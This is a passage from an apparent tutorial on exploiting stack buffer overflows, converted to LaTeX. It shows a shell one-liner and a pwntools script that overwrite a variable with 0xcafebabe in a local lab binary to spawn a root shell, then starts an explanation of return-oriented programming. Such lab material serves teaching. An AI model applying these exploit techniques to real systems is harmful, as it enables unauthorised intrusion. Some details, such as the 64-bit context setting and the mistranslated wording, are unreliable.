 \documentclass[a4paper]{exam}
\theoremstyle{definition}
\begin{document}
Therefore, we need to fill in 48 characters + the override value.\\
Construct the following payload (using small-end storage).
\begin{verbatim}
(python -c 'print "a "*48 + "\xbe\xba\xfe\xca"'; cat -) | . /test
\end{verbatim}
After entering the command, the parameters are overwritten and the program executes the System function, successfully taking down the Shell! (We have taken root access and can execute any code)
\begin{figure}
\centering
\includegraphics[width=12cm]{./img/overflow_eg3.png}
\caption{}
\end{figure}

The shell code is 
\begin{verbatim}
# coding:utf-8
from pwn import *
# 小端序转换函数
def p32_trans_iso_8859_1(value):
    result = p32(value).decode('iso-8859-1')
    return result
# 设置运行环境
context(arch='amd64', os='linux')
# process为本地程序，remote为远程调用
c = process("./bof_32-gcc4.8")
payload = 'A'*48 + p32_trans_iso_8859_1(0xcafebabe)
#print payload
# 向程序发送数据
c.sendline(payload)
# 获得shell
c.interactive()
\end{verbatim}
\subsection{Return Oriented Programming}


We can take this idea of returning to already-loaded code and extend it
further to now execute arbitrary code. Return-oriented programming is a
technique that overwrites a chain of return addresses starting at the
RIP in order to execute a series of ``ROP gadgets'' which are equivalent
to the desired malicious code. Essentially, we are constructing a custom
shellcode using pieces of code that already exist in memory. Instead of
executing an existing function, like we did in ``Return to libc'', with
ROP you can execute your own code by simply executing different pieces
of different code. For example, imagine we want to add 4 to the value
currently in the EDX register as part of a larger program. In loaded
memory, we have the following functions:
\end{document}
